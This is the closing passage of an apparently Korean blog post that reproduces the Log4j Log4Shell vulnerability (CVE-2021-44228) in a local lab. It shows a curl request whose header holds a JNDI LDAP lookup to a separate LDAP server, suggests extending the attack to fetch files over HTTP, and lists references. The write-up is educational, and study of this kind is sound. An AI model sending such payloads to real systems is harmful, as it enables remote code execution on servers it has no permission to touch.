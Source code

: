 ##### 해킹 시도 요청

```
curl http://127.0.0.1:8080/ -H 'X-Api-Version: ${jndi:ldap://192.168.1.6:1389/o=macos}'
```

##### 테스트 결과

<p align="center">
    <img src="/images/log4j-vulnerability-CVE-2021-44228-5.gif" width="80%" class="image__border">
</p>

## CLOSING

`o=ubuntu` LDAP 질의를 사용하는 경우, Ubuntu OS에서 `FireFox` 브라우저가 동작합니다. 
포스트를 위한 테스트는 진행하지 않았지만, 원하시는 분은 테스트가 가능합니다. 
이번엔 단순히 명령어를 통해 특정 프로그램을 실행시켰지만, HTTP 리소스 서버를 만들고 해당 HTTP 서버에서 특정 파일을 다운받도록 변경해보아도 좋을 것 같습니다. 
여유가 된다면 Log4j에서 문제를 유발한 코드와 Apache 쪽에서 해당 버그를 어떻게 수정했는지 이력을 찾아 정리하겠습니다.

#### TEST CODE REPOSITORY
- <https://github.com/Junhyunny/blog-in-action/tree/master/2021-12-15-log4j-vulnerability-CVE-2021-44228>

#### REFERENCE
- <https://logging.apache.org/log4j/2.x/security.html>
- <https://www.lunasec.io/docs/blog/log4j-zero-day/>
- <https://www.balbix.com/insights/what-is-a-cve/>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228>
- <https://cselabnotes.com/kr/2021/12/12/210/>
- <https://www.hahwul.com/2021/12/11/log4shell-internet-is-on-fire/>
- <https://devocean.sk.com/blog/techBoardDetail.do?ID=163523>
- <https://logging.apache.org/log4j/2.x/manual/lookups.html>
- <https://docs.oracle.com/javase/tutorial/jndi/overview/index.html>
- <https://jogakleeron.tistory.com/53>
- <https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol>
- <https://github.com/veracode-research/rogue-jndi>